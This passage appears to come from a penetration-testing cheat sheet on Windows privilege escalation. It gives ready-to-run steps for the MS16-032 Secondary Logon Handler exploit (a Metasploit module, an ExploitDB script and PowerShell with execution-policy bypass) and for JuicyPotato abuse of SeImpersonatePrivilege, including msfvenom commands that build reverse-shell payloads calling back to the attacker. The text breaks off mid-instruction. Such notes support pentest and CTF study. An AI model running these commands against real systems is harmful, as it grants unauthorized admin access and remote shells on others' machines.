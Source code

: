 #### Secondary Logon Handler

**With Metasploit**

```
exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

**With Powershell and ExploitDB**

Link to download

```
https://www.exploit-db.com/exploits/39719
```

Once downloaded onto the target system, execute the below

```
powershell -exe bypass
Import-Module .\script-name.ps1
Invoke-MS16-032
```

After successful execution, this will bring up an elevated command prompt by which you can execute commands as an admin.

#### Exploiting SeImpersonatePrivilege

**JuicyPotato**

Link to download

```
https://github.com/ohpe/juicy-potato
```

Vulnerable Windows versions

```
Windows 7 Enterprise
Windows 8.1 Enterprise
Windows 10 Enterprise
Windows 10 Professional
Windows Server 2008 R2 Enterprise
Windows Server 2012 Datacenter
Windows Server 2016 Standard
```

We then create the payload \[1] Option

```
msfvenom -p cmd/windows/reverse_powershell lhost=your-ip lport=4545 > shell.bat
```

\[2] Option

```
msfvenom -p windows/shell_reverse_tcp LHOST=your-ip LPORT=4545 -f exe > shell.exe
```

Then transfer your payload and juicypotato.exe to the target machine. Execute the below
